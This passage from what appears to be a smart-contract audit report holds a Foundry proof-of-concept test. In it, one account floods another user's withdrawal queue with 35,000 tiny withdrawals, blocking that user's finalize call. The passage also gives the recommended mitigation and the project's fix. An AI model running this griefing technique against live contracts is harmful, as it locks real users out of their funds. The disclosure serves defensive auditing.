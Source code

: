 ```solidity
    function test_DoSUserActiveRequests() public {
        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        uint256 initialDeposit = 1000 ether;
        USDe.mint(alice, initialDeposit);
        USDe.mint(bob, initialDeposit);

        vm.startPrank(alice);
        USDe.approve(address(jrtVault), type(uint256).max);
        jrtVault.deposit(initialDeposit, alice);
        vm.stopPrank();

        vm.startPrank(bob);
        USDe.approve(address(jrtVault), type(uint256).max);
        jrtVault.deposit(initialDeposit, bob);
        vm.stopPrank();

        //@audit => Alice requests to withdraw its full USDe balance
        uint256 totalWithdrawableAssets = jrtVault.maxWithdraw(alice);
        vm.prank(alice);
        jrtVault.withdraw(totalWithdrawableAssets, alice, alice);

        //@audit => Bob does a huge amount of tiny withdrawals to inflate the activeRequests array of Alice
        vm.pauseGasMetering();
            for(uint i = 0; i < 35_000; i++) {
                vm.prank(bob);
                jrtVault.withdraw(1, alice, bob);
            }
        vm.resumeGasMetering();

        //@audit-info => Skip till a timestamp where the requests can be finalized
        skip(1_000_000);

        //@audit-issue => Alice gets DoS her tx to finalize the withdrawal of her USDe balance
        vm.prank(alice);
        unstakeCooldown.finalize(sUSDe, alice);
    }
```

**Recommended Mitigation:** A combination of a minimum withdrawal amount and a permission mechanism to allow users to specify who can request new withdrawals on their behalf.

In addition to the above mitigations, restrict who can call the `transfer()` on the `UnstakeCooldown` and `ERC20Cooldown` contracts. If anybody can call the `transfer()` function, the mitigations mentioned previously can be circumvented by directly calling the `transfer()` on any of the two Cooldown contracts.

**Strata:**
Fixed in commits ea7371d, da327dc, and, 9b5ac62 by:
1. Adding access control to `UnstakeCooldown::transfer` and `ERC20Cooldown::transfer`.
2. Setting a soft limit for requests created by an account other than the receiver, and a hard limit for requests created by the actual receiver. Once the hard limit is reached, any subsequent request is added to the last request on the list.
